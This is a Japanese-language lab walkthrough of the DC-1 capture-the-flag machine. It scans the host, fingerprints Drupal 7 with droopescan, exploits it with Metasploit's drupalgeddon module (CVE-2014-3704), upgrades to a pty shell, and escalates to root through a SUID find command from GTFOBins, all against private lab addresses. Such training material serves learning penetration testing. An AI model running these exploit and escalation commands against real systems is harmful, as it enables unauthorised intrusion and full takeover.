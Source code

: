 ## DC-one 410~

## 目的
- flag1 <- システム内
- flag4 <- システム内
- theFinalFlag <- root

### ポートスキャンまでいつもと同じ
  - 20, 80, 111

### Webサイトをチェックする
  - robots.txtを見る。これはクローラーがサイトをクローリングしてもいいかを判断できるサイト。Disallowと書いているのは、クローラの巡回を拒否している
  - サイトの作成ソフトとおおよそのバージョンがわかる
  - drupalは有名なwebサイトの構築ソフト

### droopscanインストール cf417
- インターネットに繋げて
- `pip install --break-system-packages --user droopescan`
  - `--break-system-packages` 最近のpipは面倒なので、これを使うと昔みたいに簡単にインストールできる
  - `--user` 本来はpipはルート権限だがルートでなく、個人としてコマンドを取得するのでパスワードがいらない 
- pip listにはあるが、個人ユーザでインストールしているのでパスが通っていないので実行できない問題が起こる
- 次のどちらかでパスを探す。もちろん上の方が効率がいい
  - `find ~ -name droopescan` 
  - `sudo find / -name droopescan`

### droopescan
- droopescanはPythonベースのセキュリティスキャナでDrupal,wordpress,Joomlaで使える。より細かいバージョンがわかって、そこからwebサイトを構築している脆弱性を発見できることがある
- `/home/user/.local/bin/droopescan scan drupal -u $URL`
- 結構時間かかる
- versin 7.22~7.26ということがわかる
- drupalはPluginを選択して、インストールできる。それが表示されている



### Metasploitをネットで調べる
- drupalに脆弱性があるかもしれない
- 調べるだけなのでインターネットにつながっているなら何でもいい 
- `Exploit Database`を検索して、`drupal 7 remote`でsearchする(CVE-2014-3704)
- drupalgeddonを使うのでメモっておく

### metasploitを実行する
  - ParrotOSのシェルで
  - `msfconsole`
  - 起動画面に使えるモジュールや分類が表示されている
  - どこにdrupalgeddonあるか調べる `search type:exploit drupal` Pathを覚えておく
    - `rank`というのはツールの有能性 
  - `use exploit/multi/http/drupal_drupageddon`
    - パスの入力にはTabが使える 
  - `info`
    - モジュールの使い方がわかる 
  - `show options`をして、Requiredと書いてあるところのyesの部分は必ず埋める必要がある。ただし、`targeturi`はここではないので、デフォルトでスラッシュが設定されているので入力する必要がない
  - `set RHOSTS 192.168.56.103` ターゲット側端末
    - 大文字のところは小文字でもいい 
  - `set LHOST 192.168.56.102` 攻撃側端末
  - `show options`で確認する
  - `run`
  - シェルを取得できるが、これはダムシェルと言って機能がとても悪いシェルである。次のコマンドをやってみる これはOSを調べるコマンドである `uname -a`、使えないので、いつも使っているようなシェルにする


### Pythonのptyで対話シェルに切り替え
  - `shell`
  - Pythonを呼び出してシェルを呼び出す
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - 対話シェルに切り替わる

### システムの探索
- OSの特定をすることで脆弱性を見つけられる可能性がある
  - `uname -a` 
- 過去のコマンドの履歴で何かわかるかもしれない
  - `cat .bash_history`
- 個人ユーザがroot権限でできることを調べる
  - `sudo -l`をやってみる
- SUIDファイルを検索
  - `find / -perm -u=s -type f 2> /dev/null`
  - find以外に多くのコマンドが出てくるが、sudoコマンドは使えないのでsudoコマンドを使わないGTFOBinsを探す。結局、色々あるがfindしか使えない

### 一時ファイルの置き場所を調べる
- `/tmp`は再起動後に消えるが、`/var/tmp`は再起動後でも消えない

### findコマンドでrootシェルの取得
  - GTFOBinsのWebサイトから     `find`を検索
  - `/usr/bin/find . -exec /bin/bash -p \; -quit`
    - `-p`は出力がPosix表示になる 
  - root権限の取得
### Flagを探して表示
  - `cat /root/thefinalflag.txt`  

## Search Sploitでexploitを探す
- `searchsploit drupal 7 remote`
- `.py`,`.rb`がコマンドで、`.txt`は説明
- シェルの取得を目的でdrupalのバージョンから、このモジュールを探す -> php/webapps/35150.php
- `searchsploit -m パスの番号`
  - `searchsploit -m 35150`
  - ファイルがダウンロードされるので実行する
